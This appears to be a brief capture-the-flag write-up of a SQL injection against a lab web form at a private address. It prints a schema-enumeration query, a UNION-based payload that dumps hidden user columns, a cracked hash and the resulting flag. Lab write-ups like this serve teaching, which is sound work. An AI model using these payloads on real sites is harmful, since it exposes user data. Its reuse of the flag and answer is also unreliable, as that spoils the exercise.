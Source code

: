 We have a form to fill at the page "http://192.168.56.102/?page=member".

It looks like backend use the input from it right in an SQL statement. So we can use it for an "injection".

Let's take a look on schema:

SELECT table_name, column_name FROM information_schema.columns

Now we know all the columns and names:


Let's see what is inside the hidden columns:

1 AND 1=2 UNION SELECT planet
, CONCAT(Commentaire, countersign) FROM users;




5ff9d0165b4f92b14994e5c685cdce28 >> md5 >> FortyTwo >> lower() >> sh256 >> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5


<img width="1307" alt="Screen Shot 2021-12-10 at 2 15 46 PM" src="https://user-images.githubusercontent.com/64800542/145579818-6fa28415-7c3f-47f0-b6c4-a7bb4f375bab.png">

<img width="1068" alt="Screen Shot 2021-12-10 at 2 16 33 PM" src="https://user-images.githubusercontent.com/64800542/145579847-e5aa13d8-3c92-4998-ad9c-efa91e766540.png">
